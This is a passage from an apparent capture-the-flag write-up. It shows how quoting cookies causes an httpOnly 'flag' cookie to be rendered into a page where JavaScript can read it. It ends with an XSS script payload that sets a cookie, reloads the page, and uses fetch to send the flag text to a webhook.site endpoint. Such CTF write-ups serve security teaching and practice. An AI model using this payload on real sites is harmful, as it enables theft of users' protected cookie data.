 In our case, `theme` cookie is the cookie that gets rendered and `flag` cookie is the httpOnly cookie we want to steal.

Let's try setting `theme` cookie to `"light`, `flag` cookie, and `asdf` cookie to `pozz"`.

![](/uploads/{{ page.permalink }}/ss25.png)

Great! Our `flag` cookie, even though it's httpOnly, is now rendered on the page and **readable by JavaScript**. Now we need to complete our payload.

The form only lets us set one cookie to open double quotes. However, since we can already exploit XSS, we can use JS to set a second cookie with the closing quotes. We will also need to reload the page to see those cookie manipulations in action and prevent accidental inifite reloads. After reloading, flag value should appear on the theme toggle button, just like on the screenshot above. Finally, use fetch to exfiltrate whatever is written on that button to get the flag. 🚩

```html
<script>
    if (!document.cookie.split('; ').find(row => row.startsWith('asdf='))) {
        document.cookie = `asdf=pozz\"; path=/`;
        location.reload();
    } else {
        fetch(`https://webhook.site/UUID/?flag=${document.getElementById('theme-toggle').textContent}`);
    }
</script>
```

